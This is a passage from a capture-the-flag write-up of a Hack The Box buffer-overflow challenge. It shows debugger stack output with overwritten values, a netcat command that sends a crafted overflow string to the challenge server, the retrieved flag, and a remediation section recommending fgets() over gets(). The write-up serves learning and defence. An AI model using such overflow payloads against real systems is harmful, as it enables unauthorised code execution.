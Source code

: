   f 1 0x42424242                            
  f 2 0xdeadbeef                            
  f 3 0xc0ded00d                            
  f 4    0x300                              
────────────────────────────────────────────────────────────────────────────────

pwndbg> x/4x $ebp                          

0xffffd01c:     0x41414141      0x42424242      0xdeadbeef      0xc0ded00d
{% endhighlight %}

Consequently, the if statement discussed earlier in the [Ghidra](#h.ihree4tnkztp) section will run true. After piping the malicious string into netcat, the flag.txt file located within the server is printed out.

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $nc 159.65.54.50 31449 < eip_flag  
You know who are 0xDiablos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ  
HTB{0ur_Buff3r_1s_not_healthy}┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $
{% endhighlight %}

Conclusion
==========

* * *

The binary in question was vulnerable to a buffer overflow attack due to the lack of boundary checks performed on user input. The deprecated gets() function was used within the binary despite the security warnings that are associated with it. As a result, memory could be overwritten resulting in behavior that the binary was not written to perform. The following remediations should be strongly considered:

*   Never use the deprecated gets() function

*   Usage of this function creates the possibility for security risks that could allow malicious actors to run arbitrary code

*   Use the secure fgets() function

*   This function reads user input until a newline character is found or until the buffer gets filled

The aforementioned remediations should be observed as soon as possible. Until this binary is patched, the service running on port 31449 should be disabled.

* * *

[[1]](#ftnt_ref1) [https://www.gnu.org/software/gdb/](https://www.google.com/url?q=https://www.gnu.org/software/gdb/&sa=D&source=editors&ust=1653862543264892&usg=AOvVaw2WG82PXaT9xLvUVSxNsry4) 

[[2]](#ftnt_ref2) [https://github.com/NationalSecurityAgency/ghidra](https://www.google.com/url?q=https://github.com/NationalSecurityAgency/ghidra&sa=D&source=editors&ust=1653862543264457&usg=AOvVaw3kUKvphtd395QkJ0zU_s9p) 

[[3]](#ftnt_ref3) [https://man7.org/linux/man-pages/man3/gets.3.html](https://www.google.com/url?q=https://man7.org/linux/man-pages/man3/gets.3.html&sa=D&source=editors&ust=1653862543263762&usg=AOvVaw1WeTWTgKm-gKvE0D5cStuy)
